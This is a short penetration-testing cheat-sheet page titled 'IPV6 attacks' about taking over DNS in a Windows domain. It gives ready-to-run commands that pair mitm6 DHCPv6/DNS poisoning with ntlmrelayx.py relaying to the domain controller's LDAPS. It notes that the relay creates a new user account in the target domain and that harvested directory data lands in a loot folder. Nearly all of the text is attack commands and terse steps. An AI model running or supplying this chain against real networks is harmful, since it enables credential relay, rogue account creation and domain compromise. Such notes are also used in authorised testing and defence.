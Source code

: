 ```yaml
---
description: >-
  DNS takeover // Usually DNS is not configured for IPV6 so we create our own
  dns
---
```


# IPV6 attacks

```
ntlmrelayx.py -6 -t ldaps://<ip> -wh <name>.<domain>.local -lootme
```

RUN IT IF NO ERRORS THEN RUN

(mitm6 tool is needed)

```
sudo mitm6 -d <domain name>.local
```

\[Only is event occurs we get access ex-reboot/login etc]

CHECK THE `LOOTME` FILE MENTIONED ABOVE FOR INFO WHICH MAY HAVE BEEN COLLECTED

IF success ; the tool generates a new user and password for us IN the target system

